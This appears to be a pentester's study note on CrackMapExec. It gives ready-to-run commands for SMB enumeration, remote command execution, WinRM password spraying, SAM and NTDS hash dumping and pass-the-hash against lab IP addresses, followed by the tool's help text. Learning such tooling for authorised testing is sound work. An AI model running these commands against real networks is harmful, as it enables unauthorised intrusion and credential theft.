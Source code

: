 ```yaml
---
tags:
  - Enumeration
  - TCP
  - ServerMessageBlock
  - SMB
  - Tooling
---
```



[GitHub - byt3bl33d3r/CrackMapExec: A swiss army knife for pentesting networks](https://github.com/byt3bl33d3r/CrackMapExec)


```shell-session
crackmapexec smb 10.129.14.128 --shares -u '' -p ''
```

## Installation

```shell-session
sudo apt-get -y install crackmapexec
```

## Usage

```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

##### SMB Command Execution

```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```
##### WinRM Password Spraying

```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

> [!NOTE]
> By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found.

[web.archive.org/web/20220129050920/https://mpgn.gitbook.io/crackmapexec/getting-started/using-credentials](https://web.archive.org/web/20220129050920/https://mpgn.gitbook.io/crackmapexec/getting-started/using-credentials)
##### Enumerating Logged-on Users

On a network with multiple machines. Some of them share the same local administrator account.

```shell-session
crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
```

##### Extract Hashes from SAM Database

 If we get administrative privileges on a machine, we can extract the SAM database hashes.

```shell-session
crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
```

##### Extract NTDS from SMB

Using an account with admin privileges:

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

##### Pass the Hash


```shell-session
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```

If we want to perform the same actions but attempt to authenticate to each host in a subnet using the local administrator password hash, we could add `--local-auth` to our command. 

This method is helpful if we obtain a local administrator hash by dumping the local SAM database on one host and want to check how many (if any) other hosts we can access due to local admin password re-use. We can use the option `-x` to execute commands. See [[#Enumerating Logged-on Users]]
### Options

```shell-session
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT]
                    [--jitter INTERVAL] [--darrell]
                    [--verbose]
                    {mssql,smb,ssh,winrm} ...

optional arguments:
  -h, --help            show this help message and exit
  -t THREADS            set how many concurrent threads to use (default: 100)
  --timeout TIMEOUT     max timeout in seconds of each thread (default: None)
  --jitter INTERVAL     sets a random delay between each connection (default: None)
  --darrell             give Darrell a hand
  --verbose             enable verbose output

protocols:
  available protocols

  {mssql,smb,ssh,winrm}
    mssql               own stuff using MSSQL
    smb                 own stuff using SMB
    ssh                 own stuff using SSH
    winrm               own stuff using WINRM
```


```shell-session
usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]]
                        [-k] [--aesKey] [--kdcHost] [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT]
                        [-M MODULE] [-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {http,https}]
                        [--server-host HOST] [--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce]
                        [-d DOMAIN | --local-auth] [--port {139,445}] [--share SHARE] [--gen-relay-list OUTPUT_FILE]
                        [--continue-on-success] [--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions]
                        [--disks] [--loggedon-users] [--users [USER]] [--groups [GROUP]] [--local-groups [GROUP]]
                        [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY] [--wmi-namespace NAMESPACE]
                        [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
                        [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
                        [--put-file FILE FILE] [--get-file FILE FILE]
                        [--exec-method {atexec,wmiexec,smbexec,mmcexec}] [--force-ps32] [--no-output]
                        [-x COMMAND | -X PS_COMMAND] [--obfs] [--clear-obfscripts]
                        [target ...]

positional arguments:
  target                the target IP(s), range(s), CIDR(s), hostname(s), FQDN(s), file(s) containing a list of
                        targets, NMap XML or .Nessus file(s)

optional arguments:
  -h, --help            show this help message and exit
  -id CRED_ID [CRED_ID ...]
                        database credential ID(s) to use for authentication
  -u USERNAME [USERNAME ...]
                        username(s) or file(s) containing usernames
  -p PASSWORD [PASSWORD ...]
                        password(s) or file(s) containing passwords
  -k, --kerberos        Use Kerberos authentication from ccache file (KRB5CCNAME)
```

